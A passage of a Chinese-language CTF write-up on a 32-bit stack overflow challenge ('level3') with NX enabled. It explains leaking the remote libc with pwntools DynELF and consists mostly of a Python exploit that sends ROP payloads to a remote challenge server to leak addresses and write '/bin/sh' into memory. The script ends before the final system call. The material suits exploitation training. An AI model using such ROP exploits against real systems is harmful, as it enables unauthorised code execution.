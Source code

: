 `vulnerable_function` 有一个很明显的栈溢出漏洞，但是这里开启了 `NX` 没有办法写 `shellcode` 。

#### leak the version of remote libc

很多的题目为了降低难度，很多通过调用库函数 `system` 的题目我们实际上都故意留了后门或者提供了目标系统的  `libc` 版本。我们知道，不同版本的 `libc` ，函数首地址相对于文件开头的偏移和函数间的偏移不一定一致。所以如果题目不提供 `libc` ，通过泄露任意一个库函数地址计算出 `system` 函数地址的方法就不好使了。这就要求我们想办法获取目标系统的 `libc` 。

`pwntools` 提供了一个方法 `DynELF` 可以泄露 `libc` 的版本，具体的用法在 [**这**](https://pwntools.readthedocs.io/en/stable/dynelf.html) 。

### 漏洞利用

`poc` :

```python
#! /usr/bin/env python
# -*- coding:utf-8 -*-
from pwn import *


debug = 0
if debug:
    exp_file = process('./level3')
else:
    exp_file = remote("111.198.29.45", 30223)

elf_file = ELF('./level3')


def leak(leak_addr):
    _start_addr = elf_file.symbols['_start']
    write_got = elf_file.plt['write']
    exp_file.recvuntil("Input:\n")
    payload = "a" * 0x8c
    payload += p32(write_got)
    payload += p32(_start_addr)
    payload += p32(0x1)
    payload += p32(leak_addr)
    payload += p32(0x4)
    exp_file.sendline(payload)
    get_leak_addr = exp_file.recv(4)
    log.info("{addr_1}: {addr_2}".format(addr_1=hex(leak_addr), addr_2=hex(u32(get_leak_addr))))
    return get_leak_addr


def write_bin_sh(hello_addr):
    _start_addr = elf_file.symbols['_start']
    read_plt = elf_file.plt['read']
    exp_file.recvuntil("Input:\n")
    payload = "a" * 0x8c
    payload += p32(read_plt)
    payload += p32(_start_addr)
    payload += p32(0x0)
    payload += p32(hello_addr)
    payload += p32(0x100)
    exp_file.sendline(payload)
    exp_file.sendline("/bin/sh; ")


def main():
    d = DynELF(leak, elf=elf_file)
    system_addr = d.lookup("system", "libc")
    data_addr = 0x0804A01C
    write_bin_sh(data_addr)

```